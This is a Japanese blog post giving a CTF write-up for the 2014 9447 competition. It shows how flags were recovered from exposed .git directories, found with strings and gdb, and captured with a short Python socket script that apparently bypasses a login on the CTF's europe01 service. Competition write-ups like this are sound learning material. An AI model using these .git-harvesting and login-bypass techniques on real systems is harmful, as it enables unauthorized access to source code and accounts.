 ```yaml
---
layout: post
title: 9447 CTF の write-up
categories: [ctf]
date: 2014-12-01 18:29:00 +0900
---
```


ぼっチーム omakase として参加した。最終的に獲得できたポイントは 427 点でチーム順位は 104 位 (登録 988 チーム中) で日本勢の中では 10 位だった。  
tumorous (Web 100), bashful (Web 101), insanity_check (Reversing 1), no strings attached (Reversing 25), europe01 (Exploitation 200) の 5 問を解いた。

## tumorous (Web 100)
- git。
- 手元の .git を見たりして適当に推測
- objects 下のファイルを logs を見ながらダウンロードしていく
- logs だけでは把握しきれないので python で object ファイルを zlib.decompress で展開しながら、出たエラーを元に全部持ってくる
- `git log -p -3`

```
flag: 9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

## bashful (Web 101)
- git。
- autoindex が見られるので全部ダウンロード
- 適当にディレクトリを作って `git unpack-objects < .../.git/objects/pack/pack-...pack`
- 展開された object ファイルを片っ端から zlib.decompress
- `import zlib; zlib.decompress(open(r'.git/objects/2d/28acf09fc4424f7e1701bd7c8a6df29e6c9fe1', 'rb').read()) # b'blob 45\x009447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}\n'`

```
flag: 9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}
```

## insanity_check (Reversing 1)
- strings
- `strings -a insanity | grep 9447`

```
flag: 9447{This_is_a_flag}
```

## no strings attached (Reversing 25)
- gdb で認証の辺りに breakpoint を置く
- stack を見ると '9' があるのでそこら辺のメモリを見ると 39 00 00 00 みたいな配置が
- 素直に読むと flag

```bash
$ gdb no_strings_attached
gdb-peda$ b *0x08048777
Breakpoint 1 at 0x08048777
gdb-peda$ r
...
[-----stack-----]
...
0004| 0xbfff7744 --> 0x804e448 --> 0x39 ('9')
...
[---------------]
...
Breakpoint 1, 0x08048777 in authenticate ()
gdb-peda$ x/ws 0x804e448
0x804e448: U"9447{you_are_an_international_mystery}"
```
```
flag: 9447{you_are_an_international_mystery}
```

# europe01 (Exploitation 200)
```python
import socket
import time

def main():
  s = socket.create_connection(('europe.9447.plumbing', 9447), 3)
  s.settimeout(3)

  s.recv(1024)
  s.send(b'1\n')

  s.recv(1024)
  s.send(b'guest\n')
  s.recv(1024)
  s.send(b'guest\n')

  s.recv(1024)
  s.send(b'1\n')

  s.recv(1024)
  s.send(b'admin\n')
  s.recv(1024)
  s.send(b'guest\n')

  time.sleep(1)

  s.recv(1024)
  s.send(b'2\n')

  print('[*]', s.recv(1024))

  s.close()

if __name__ == '__main__':
  main()
```
```
flag: 9447{...} (メモし忘れた)
```
